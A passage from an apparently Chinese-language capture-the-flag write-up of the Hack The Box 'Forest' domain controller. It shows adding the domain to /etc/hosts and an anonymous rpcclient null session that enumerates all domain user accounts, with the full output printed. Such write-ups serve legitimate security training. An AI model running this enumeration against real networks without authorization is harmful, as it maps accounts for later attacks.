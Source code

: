 ```
Nmap done: 1 IP address (1 host up) scanned in 162.40 seconds

```

显然是一台DC服务器，域名是：```htb.local```,机器名字：```FOREST```

先把域名加到host文件
```
echo "10.10.10.161  htb.local" >> /etc/hosts
```

使用rpcclient匿名登录靶机，枚举所有域用户
```
┌──(root💀kali)-[~/htb/Forest]
└─#  rpcclient -U "" -N 10.10.10.161                                                                           130 ⨯
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
rpcclient $> 

```

整理成一份user名单
```
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_c75ee099d0a64c91b
```
